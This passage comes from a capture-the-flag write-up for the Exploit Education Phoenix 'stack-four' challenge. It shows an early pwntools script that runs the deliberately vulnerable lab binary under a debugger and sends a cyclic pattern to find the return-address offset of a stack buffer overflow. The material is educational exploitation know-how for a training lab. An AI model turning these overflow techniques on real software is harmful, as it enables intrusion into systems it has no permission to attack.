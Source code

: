 The time has come to start crafting the exploit. This will take some time compared to previous challenges; we’ll need to do some debugging. The preliminary code is as follows:
{: style="text-align: justify;"}
```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-four$ cat exploit.py
#!/usr/bin/env python3
#
from pwn import *
#
# Need to set the pwntools "context" context for controlling
# many settings in pwntools library's capabilities
#
# The context is for little-endian AMD64 architecture running on Linux OS
#context.update(arch='amd64', os='linux')
#
#################################################################################
#
# Preparing the exploit's payload
payload = cyclic(100)
#
#################################################################################
#
# Launching exploit!
print("Launching The Stack Four Exploit!")
#
# The env={} to ensure the execution environment doesn't have any environmental variables
# This is comprehensively explained in the writeup to the "Stack Two" Phoenix challenge
p = process(["stack-four"], env={}, cwd="/opt/phoenix/amd64")
gdb.attach(p,'''
echo "hi"
break *0x00400669
continue
''')
#
# Sending the command-line inputted payload into the executing stack-three process
p.sendline(payload)
#
# Making the process interactive so users can
# interact with the process via its terminal!
p.interactive() 
```

[The hint](https://exploit.education/phoenix/stack-four/) that “the saved instruction pointer is not necessarily after the end of variable allocations – things like compiler padding can increase the size” explains why we prepared an initial 100-character payload with the `cyclic(100)` command. 100 characters should be enough to fill the 64-character buffer and spill over into the stack frame’s return address, even if it is not immediately after the **start_level()** function’s last variable. Because each sequence of four characters has a unique index, we can perform the appropriate debugging and determine how long the payload actually needs to be. We also attached Pwndbg to the launched process and inserted a breakpoint on the **start_level()** function’s last instruction at 0x00400669.
{: style="text-align: justify;"}


[^1]: [Call Stack Internals (Part 1)](https://loonytek.com/2015/04/28/call-stack-internals-part-1/])